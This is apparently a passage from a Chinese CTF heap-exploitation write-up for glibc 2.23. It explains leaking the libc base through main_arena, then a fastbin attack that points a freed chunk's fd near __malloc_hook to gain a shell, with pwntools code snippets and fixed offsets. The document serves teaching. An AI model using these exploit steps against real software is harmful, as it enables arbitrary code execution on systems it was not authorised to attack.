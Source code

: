 ### main_arena 和 libc 的关系

- **main_arena** 是 glibc 中用于管理堆内存的主要结构体，它包含了各种 bin 的信息
- **main_arena** 是 libc 中的一个全局变量，存储在 libc 的 data 段中
- **main_arena** 的地址相对于 libc 基地址有一个固定的偏移（如 `0x3c4b20`）

这个地址为 main_arena + 0x58 ，而且 main_arena 又相对 libc 固定偏移 0x3c4b20

所以得到这个 fd 的值，然后减去 0x58 再减去 main_arena 相对于 libc 的固定偏移，即得到 libc 的基地址

```python
# 0x3c4b78?
# libc_base=（程序里的 main_arena+88）-0x3c4b78(0x3c4b0+88,一般 2.23_64 的偏移都是这个，不同 libc 版本会有不同)

# index=2?
# 由于我们刚刚把 chunk 2 的 fd 指针改为 chunk 4 的地址，所以第一次 malloc(0x10) 的时候是分配的原来 chunk 2 的块给 index 1，第二次 malloc(0x10) 的时候就会分配 chunk 4 的块给 index 2，也就是说 index 2 与 index 4 的内容都是 chunk 4


libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00")) - 0x3c4b78
```

### malloc_hook 的作用

- **malloc_hook** 是 libc 中的一个函数指针，位于 libc 的 data 段
- 当调用 `malloc` 时，如果 `malloc_hook` 不为空，则会执行 `malloc_hook` 指向的函数
- 通过修改 `malloc_hook`，可以劫持 `malloc` 的执行流程，从而实现 getshell

### fastbin attack 的基本原理

- **fastbin attack** 是一种堆漏洞利用技术，通过操控 fastbin 链表，将任意地址放入 fastbin 中，然后通过 `malloc` 分配该地址，从而实现任意地址写
- 具体步骤：
  1. 通过堆溢出或其他漏洞，修改某个 fastbin chunk 的 `fd` 指针，使其指向目标地址（如 `malloc_hook` 的地址）
  2. 通过 `malloc` 分配 chunk，将目标地址分配出来
  3. 向分配的内存中写入数据，从而修改目标地址的内容（如将 `malloc_hook` 修改为 `one_gadget` 的地址）

获得了 libc 地址，我们可以使用 fastbin attack 将一个 libc 上的地址放入 fastbin 链表中

然后 malloc 出来，这样就可已改写 libc 的内容

malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写 malloc_hook 来 getshell

同样的，这里我们也要绕过 malloc 的安全检查，chunksize 必须与 fastbin_index 相对应

初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下

![](https://pic1.imgdb.cn/item/67c1d70bd0e0a243d4083c39.png)

可以发现在 0x7f2a8a09eaed 处构造块可以绕过检测（因为 7f 满足 0x70 大小）

可以计算 0x7f2a8a09eaed 距离 libc 基址的偏移为 0x3c4aed

```python
alloc(0x60)

free(4)

payload = p64(libc_base+0x3c4aed)

fill(2, payload)

gdb.attach(p)
```
